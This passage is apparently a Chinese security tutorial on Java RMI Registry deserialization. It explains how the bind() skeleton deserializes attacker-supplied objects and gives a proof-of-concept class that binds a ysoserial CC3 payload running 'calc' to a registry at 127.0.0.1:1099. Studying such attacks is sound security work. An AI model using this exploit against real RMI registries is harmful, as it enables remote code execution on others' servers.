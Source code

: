 ```java
case 0: // bind(String, Remote)
{
    // Check access before reading the arguments
    RegistryImpl.checkAccess("Registry.bind");

    java.lang.String $param_String_1;
    java.rmi.Remote $param_Remote_2;
    try {
        java.io.ObjectInput in = call.getInputStream();
        $param_String_1 = (java.lang.String) in.readObject();
        $param_Remote_2 = (java.rmi.Remote) in.readObject();
    } catch (java.io.IOException | java.lang.ClassNotFoundException e) {
        throw new java.rmi.UnmarshalException("error unmarshalling arguments", e);
    } finally {
        call.releaseInputStream();
    }
    server.bind($param_String_1, $param_Remote_2);
    try {
        call.getResultStream(true);
    } catch (java.io.IOException e) {
        throw new java.rmi.MarshalException("error marshalling return", e);
    }
    break;
}
```

这个就代表：Server通过RegistryImpl_Stub调用 `bind(String, Remote)` 方法时，Registry端的RegistryImpl_Skel对应的处理。（这也体现了RMI调用过程，其实是Stub和Skel的通信）。定位到：

```java
$param_String_1 = (java.lang.String) in.readObject();
$param_Remote_2 = (java.rmi.Remote) in.readObject();
```

可以看出，就是对Server中调用RegistryImpl_Skel#bind(String, Remote)方法传递过来的字符串和Remote对象进行反序列化操作。很明显，这就是一个攻击点：攻击者伪造成Server，通过调用RegistryImpl_Skel#bind(String, Remote)，传递一个恶意的序列化对象，Registry进行反序列化时即会造成RCE（当然，Registry得存在Gadget）。

例如如下代码，我伪造一个Server，向Registry发送一个恶意的Remote对象，这个对象其实就是ysoserial中的CC3（靶机需要JDK<=8u66才能打），通过动态代理将CC3 Payload代理成Remote类型对象，然后发送给Registry：

```java
/**
 * @author : p1n93r
 * @date : 2021/7/29 18:38
 * 模拟攻击方
 */
public class Attaker {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        Object cmd = Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, (InvocationHandler) CC3.getPayload("calc"));
        Remote remote = Remote.class.cast(cmd);
        registry.bind("hackYou", remote);
    }
}
```
